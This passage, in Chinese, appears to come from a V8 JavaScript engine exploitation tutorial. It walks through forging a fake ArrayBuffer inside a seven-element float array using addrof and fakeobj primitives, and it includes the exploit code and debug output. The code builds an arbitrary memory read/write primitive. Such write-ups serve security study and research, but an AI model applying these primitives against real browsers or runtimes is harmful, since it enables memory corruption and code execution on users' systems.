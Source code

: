 ```javascript
arr_buf_map = read_array_buffer_map();

/*
输出:
800222d08203271
804aa9d
0x03ee0804aa8d <JSArray[4]>
0x03ee0804aa9d <ArrayBuffer map = 000003EE08203271>
*/
```

接下来在数组中伪造出一个 `ArrayBuffer`，`ArrayBuffer` 总计 `0x30` 字节，创建一个 `6` 个元素的浮点数数组就应该足够了，但是如果从元素 `0` 开始布局内存的话，ByteLength、MaxByteLength、BackingStore 等元素，所在的位置就会横跨两个数组下标，赋值有些不方便。如果把 `ArrayBuffer` 的 map，放在浮点数组的第一个元素的高 `32 `位，会更方便一些，这就需要创建一个 `7` 个元素的浮点数组。

```javascript
// 伪造任意ArrayBuffer
function fake_array_buffer(addr, len) {
  double_arr = [1.1, 1.2, 1.3, 1.4, 1.5, 1.6, 1.7];
  // [0x00000000, Map]
  double_arr[0] = itof(ftoi(arr_buf_map) << BigInt(32))
  // [props, elems] 不影响利用,填0
  double_arr[1] = itof(make_qword(0, 0));
  // [ByteLenghLow, ByteLengthHigh]
  double_arr[2] = itof(BigInt(len))
  // [MaxByteLengthLow, MaxByteLengthHigh]
  double_arr[3] = itof(BigInt(len))
  // [BackingStoreLow, BackingStoreHigh]
  double_arr[4] = itof(BigInt(addr))

  addr_fake_arr_buf_end = addr_double_arr_begin = addrof(double_arr);
  %DebugPrint(double_arr);
  console.log(addr_fake_arr_buf_end.toString(16))
	// 7个元素的double数组, sizeof(ArrayBuffer)仅占6个，在Array和ArrayBuffer，有4字节大小的冗余空间没有使用
	// sizeof(ArrayBuffer) + 4
  addr_fake_arr_buf_begin = addr_fake_arr_buf_end - BigInt(0x30 + 0x4);
  console.log(addr_fake_arr_buf_begin.toString(16));
  return fakeobj(addr_fake_arr_buf_begin);
}

fake_buf_0_3000 = fake_array_buffer(0, 3000);
%DebugPrint(fake_buf_0_3000);
```

运行结果如下：

```bash
0x026c0804b331 <JSArray[7]>
804b331
804b2fd
0x026c0804b2fd <ArrayBuffer map = 0000026C08203271>
```

创建出对应的 `Uint8Array`。
